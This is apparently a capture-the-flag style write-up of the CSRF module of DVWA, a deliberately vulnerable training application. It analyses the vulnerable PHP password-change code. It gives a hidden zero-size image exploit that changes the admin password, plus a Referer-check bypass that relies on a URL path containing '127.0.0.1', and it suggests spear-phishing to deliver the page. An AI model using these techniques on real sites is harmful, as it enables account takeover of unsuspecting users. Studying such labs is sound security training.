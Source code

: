 # CSRF

## Easy

### Code Analysis
Examining the source of the password change form

```html
<form action="#" method="GET"> New password:<br>
  <input type="password" AUTOCOMPLETE="off" name="password_new"><br>
  Confirm new password: <br>
  <input type="password" AUTOCOMPLETE="off" name="password_conf">
  <br>
  <input type="submit" value="Change" name="Change">
</form>
  ```

add the PHP source

```php
if (isset($_GET['Change'])) { 

	// Turn requests into variables 
	$pass_new = $_GET['password_new']; 
	$pass_conf = $_GET['password_conf']; 


	if (($pass_new == $pass_conf)){ 
		$pass_new = mysql_real_escape_string($pass_new); 
		$pass_new = md5($pass_new); 

		$insert="UPDATE `users` SET password = '$pass_new' WHERE user = 'admin';"; 
		$result=mysql_query($insert) or die('<pre>' . mysql_error() . '</pre>' ); 

		echo "<pre> Password Changed </pre>";         
		mysql_close(); 
	} 

	else{         
		echo "<pre> Passwords did not match. </pre>";             
	} 

} 
```

reveals no apparent CSRF protections, such as a custom header check or a [CSRF token](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet#Synchronizer_.28CSRF.29_Tokens). Additionally, examination of the PHPSESSID cookie reveals that it DOES NOT have the SameSite attribute set, meaning it can be sent from any domain. 

### Exploit
The value of the `src` attribute in the following 0x0 image is the HTTP GET request URL that will change the admin user's password, in this case to foobar. We can determine this value by analyzing the above `<form>` and/or by submitting a valid password change request and inspecting the Network tab in the browser.

```html
<img src="http://192.168.56.6/dvwa/csrf/?password_new=foobar?password_conf=foobar?Change=Change""
     height="0"
	 width="0">
```

By including this in an HTML page, hosting it on a domain we control, and convincing a logged-in DVWA user to visit the page - probably through some kind of spear-phishing attack - we can change that user's password to whatever we want.


## Medium

### Code Analysis
The below code is almost identical to the code from the Easy version, except for an additional check: the value of the HTTP_REFERRER header is pattern-matched against the string "127.0.0.1".

```php
if (isset($_GET['Change'])) { 

	// Checks the http referer header 
	if ( eregi ( "127.0.0.1", $_SERVER['HTTP_REFERER'] ) ){ 

		// Turn requests into variables 
		$pass_new = $_GET['password_new']; 
		$pass_conf = $_GET['password_conf']; 

		if ($pass_new == $pass_conf){ 
			$pass_new = mysql_real_escape_string($pass_new); 
			$pass_new = md5($pass_new); 

			$insert="UPDATE `users` SET password = '$pass_new' WHERE user = 'admin';"; 
			$result=mysql_query($insert) or die('<pre>' . mysql_error() . '</pre>' ); 

			echo "<pre> Password Changed </pre>";         
			mysql_close(); 
		} 

		else{         
			echo "<pre> Passwords did not match. </pre>";             
		}     

	} 

} 
```

The HTTP_REFERRER header is set by the browser to equal the URI of the referring page. Here, it is used in this check in an attempt to ensure that a password change request originated from the intended domain, in this case the local IP address, instead of an attacker controlled domain.

### Exploit
Although our previous exploit now doesn't work, there is an easy solution. The pattern matching function used in the code - `eregi` - only checks that the pattern is present ANYWHERE in the string. So, by hosting our page with the malicious `<img>` tag at a URL with a path containing `127.0.0.1` (e.g. `/127.0.0.1.html`), we can pass the check even if our domain is different.

```
foo.com/127.0.0.1.html
```
